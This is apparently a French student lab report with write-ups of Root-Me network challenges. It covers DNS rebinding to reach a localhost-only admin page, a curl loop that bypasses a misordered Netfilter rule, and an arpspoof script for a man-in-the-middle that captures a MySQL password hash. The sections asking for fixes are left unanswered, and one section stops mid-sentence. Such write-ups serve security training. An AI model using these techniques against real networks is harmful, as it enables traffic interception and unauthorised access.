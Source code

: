 # TP6 : Un peu de root-me

## Sommaire

- [TP6 : Un peu de root-me](#tp6--un-peu-de-root-me)
  - [Sommaire](#sommaire)
  - [I. DNS Rebinding](#i-dns-rebinding)
  - [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
  - [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)
  - [IV. Bonus : Trafic Global System for Mobile communications](#iv-bonus--trafic-global-system-for-mobile-communications)

## I. DNS Rebinding

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/HTTP-DNS-Rebinding)

- utilisez l'app web et comprendre à quoi elle sert
- lire le code ligne par ligne et comprendre chaque ligne
  - en particulier : comment/quand est récupéré la page qu'on demande
- se renseigner sur la technique DNS rebinding

🌞 **Write-up de l'épreuve**

Objectif : accéder à http://challenge01.root-me.org:54022/admin.

Ce qu'on nous fournit :
- Une page web avec un service qui permet de faire des requêtes HTTPS/HTTP qui nous apprends que pour acceder à la page admin, seul l'ip 127.0.0.1 peut y accéder.

- Un code source de l'application web qui nous apprends que pour acceder à la page admin, seul l'ip 127.0.0.1 peut y accéder.qui nous apprends que pour acceder à la page admin, seul l'ip 127.0.0.1 peut y accéder. Mais également qu'il y a une vérif d'ip pas super fiable.

- Une technique de DNS rebinding. Cela consiste à faire une requête DNS qui va retourner une ip différente en fonction du temps. Cela permet de contourner la vérif d'ip.


Grace a ce site https://lock.cmpxchg8b.com/rebinder.html, on peut créer un nom de domaine qui va nous permettre de faire une requête DNS rebinding.
On crée ainsi un nom de domaine pour la résolution des IP suivantes : 127.0.0.1 et 8.8.8.8
Il nous donne alors le nom de domaine suivant : 7f000001.08080808.rbndr.us


Plus qu'a spam un peu le service web avec ce nom de domaine avec sript et on obtient le flag.

🌞 **Proposer une version du code qui n'est pas vulnérable**

- les fonctionnalités doivent être maintenues
  - genre le site doit toujours marcher
  - dans sa qualité actuelle
    - on laisse donc le délire de `/admin` joignable qu'en `127.0.0.1`
    - c'est un choix effectué ça, on le remet pas en question
- mais l'app web ne doit plus être sensible à l'attaque

## II. Netfilter erreurs courantes

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/Netfilter-erreurs-courantes)

🌞 **Write-up de l'épreuve**

On peut récup la conf du firewall avec l'url suivante : https://challenge01.root-me.org/reseau/ch17/fw.sh

Dedans on peut voir plusieurs régles qui interdit l'accés au port 54017. Cepedant deux lignes nous intéresse :

```sh
# apply some flood protection against remaining trafic
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 15 -j LOG --log-prefix 'FW_FLOODER '
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 15 -j DROP
```

Ici, ces deux lignes permettent l'anti-flood et le write dans les logs mais en aucun cas le drop. Il suffit donc de spam l'url suivant : http://challenge01.root-me.org:54017/ pour passer outre le firewall. Car en effet des qu'une conditon est remplie, le firewall ne va pas plus loin dans les régles.

Voici la commande a tapper : for i in {1..100}; do curl -s http://challenge01.root-me.org:54017/; done

Et bim on a le flag.


🌞 **Proposer un jeu de règles firewall**

- on doit là encore aboutir au même fonctionnalités : pas de régression
- mais la protection qui a été voulue est vraiment mise en place (limitation du bruteforce)

## III. ARP Spoofing Ecoute active

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/ARP-Spoofing-Ecoute-active)

🌞 **Write-up de l'épreuve**

Accés a une machine Debian avec l'ip suivant : 172.18.0.4/16

Petit nmap pour voir ce qu'il y a sur le réseau : nmap -sn 172.18.0.1/24

On obtient alors 3 host up : 172.18.0.1, 172.18.0.2 et 172.18.0.3

On scan alors les ports de ces 3 machines : nmap -sV -p- 172.18.0.1-3

Voici les résultats :

```
172.18.0.1 : 

22 /tcp ssh
22222 /tcp easyengine

172.18.0.2 : 

Rien

172.18.0.3 : 

3306/tcp mysql
```

On voit un service mysql et un server web, on va donc faire un MITM pour récupérer les trames entre ces trois machines.

Voici le petit script bash avec dsniff :

```sh
#!/bin/bash

arpspoof -t 172.18.0.1 172.18.0.2 &
arpspoof -t 172.18.0.2 172.18.0.1 &
arpspoof -t 172.18.0.3 172.18.0.1 &
arpspoof -t 172.18.0.1 172.18.0.3 &
arpspoof -t 172.18.0.3 172.18.0.2 &
arpspoof -t 172.18.0.2 172.18.0.3 &
```

On attend un peu et on récupère les trames avec wireshark et on obtient ce fichier : [Trame](./toto.pcap)

On peut y voir plusieurs trames intéressantes avec notament ce qui semble une communiation entre le client 172.18.0.3 et le server Mysql.

Dedans on y retrouve une partie du flag mais également un mot de passe hashé et un salt.

En effet seul un client initie 

🌞 **Proposer une configuration pour empêcher votre attaque**

- empêcher la première partie avec le Poisoning/MITM
- empêcher la seconde partie (empêcher de retrouver le password de base de données)
  - regarder du côté des plugins d'authentification de cette app précise
  - que pensez-vous du mot de passe choisi

## IV. Bonus : Trafic Global System for Mobile communications

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/Trafic-Global-System-for-Mobile-communications)

⭐ **BONUS : Write-up de l'épreuve**
